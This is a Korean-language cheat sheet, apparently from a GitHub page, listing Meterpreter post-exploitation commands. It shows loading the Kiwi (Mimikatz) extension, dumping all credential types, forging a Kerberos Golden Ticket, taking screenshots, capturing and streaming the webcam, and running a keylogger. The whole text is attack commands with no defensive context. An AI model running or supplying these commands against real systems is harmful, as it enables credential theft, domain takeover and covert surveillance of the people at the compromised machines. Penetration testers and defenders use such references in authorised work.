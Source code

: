 ## 확장 모듈 (Extensions)

### Kiwi (Mimikatz) 확장

```bash
# Kiwi 로드
meterpreter > load kiwi

# 모든 크리덴셜 덤프
meterpreter > creds_all

# 특정 타입 크리덴셜
meterpreter > creds_msv
meterpreter > creds_kerberos
meterpreter > creds_ssp
meterpreter > creds_tspkg

# Golden Ticket 생성
meterpreter > golden_ticket_create -d domain.com -u administrator -s S-1-5-21-... -k aes256_key
```

### 스크린 캡처 및 감시

```bash
# 스크린샷 촬영
meterpreter > screenshot

# 연속 스크린샷 (10초마다)
meterpreter > run post/windows/gather/screen_spy TIME=10

# 웹캠 목록
meterpreter > webcam_list

# 웹캠 스냅샷
meterpreter > webcam_snap

# 웹캠 스트림
meterpreter > webcam_stream
```

### 키로깅

```bash
# 키로거 시작
meterpreter > keyscan_start

# 키로그 덤프
meterpreter > keyscan_dump

# 키로거 중지
meterpreter > keyscan_stop
```
